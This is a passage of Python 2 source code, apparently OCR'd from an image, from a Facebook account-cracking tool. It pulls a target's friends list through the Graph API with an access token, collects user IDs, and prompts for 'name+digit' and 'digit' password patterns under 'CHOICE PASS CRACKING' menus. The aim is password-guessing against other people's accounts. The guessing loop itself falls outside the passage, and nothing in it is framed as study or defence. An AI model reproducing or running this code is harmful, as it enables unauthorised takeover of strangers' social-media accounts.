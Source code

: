         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '4':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS FILE CRACK'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;92m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;38mRequested file not found\x1b[0;98m'
            raw_input(' Press enter to back ')
            choice()
        

    if rishu == '3':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='